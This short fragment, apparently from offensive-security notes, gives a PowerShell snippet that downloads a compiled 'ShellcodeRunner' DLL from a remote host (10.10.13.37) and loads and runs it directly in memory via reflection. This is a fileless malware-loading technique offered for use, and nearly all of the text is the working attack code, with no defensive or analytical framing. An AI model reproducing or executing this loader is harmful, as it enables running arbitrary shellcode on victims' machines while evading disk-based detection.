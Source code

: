 Compile to DLL and load with PowerShell from memory:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ShellcodeRunner.Program")
$method = $class.GetMethod("Run")
$method.Invoke(0, $null)
Or
[ShellcodeRunner.Program]::Run()
```
